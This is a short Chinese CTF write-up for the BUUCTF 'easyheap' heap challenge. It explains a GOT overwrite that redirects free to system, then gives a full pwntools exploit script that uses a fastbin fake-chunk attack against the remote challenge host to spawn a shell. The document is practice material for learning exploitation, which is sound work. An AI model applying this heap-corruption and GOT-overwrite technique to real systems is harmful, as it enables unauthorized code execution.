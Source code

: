 换一种思路，修改got表，将heaparray中某一个改为free_got，那么直接edit，将free_got地址的值改为system_plt，那么调用free函数就相当于调用system。

新增一个chunk，内容"/bin/sh\x00"，之后free掉这个chunk就相当于system("\bin\sh")。

exp

```python
from pwn import *
context.log_level = 'debug'

p = process('./easyheap')
elf = ELF('./easyheap')
sys_plt = elf.plt['system']
sys_got = elf.got['system']
free_got = elf.got['free']
p = remote('node4.buuoj.cn', 29050)
heap_array = 0x6020e0
leet = 0x400c23
def add(size, content):
	p.recvuntil('Your choice :')
	p.sendline('1')
	p.recvuntil('Size of Heap : ')
	p.sendline(str(size))
	p.recvuntil('Content of heap:')
	p.sendline(content)
	
def edit(size, index, content):
	p.recvuntil('Your choice :')
	p.sendline('2')
	p.recvuntil('Index :')
	p.sendline(str(index))
	p.recvuntil('Size of Heap : ')
	p.sendline(str(size))
	p.recvuntil('Content of heap : ')
	p.send(content)
	
def delete(index):
	p.recvuntil('Your choice :')
	p.sendline('3')
	p.recvuntil('Index :')
	p.sendline(str(index))

def leet():
	p.recvuntil('Your choice :')
	p.sendline('4869')
	p.recv()

add(0x10, '/bin/sh\x00')
add(0x10, 'a'*0x10)
add(0x60, 'b'*0x10)
delete(2)
payload1 = b'e'*0x10 + p64(0) + p64(0x71) + p64(0x6020ad)
edit(len(payload1), 1, payload1)
add(0x60, 'c'*(0x60))
add(0x60, 'a'*(0x602100-0x6020ad-0x10)+p64(free_got))
edit(8, 4, p64(sys_plt))
add(0x10, '/bin/sh\x00')
pause()
delete(6)
p.interactive()
```
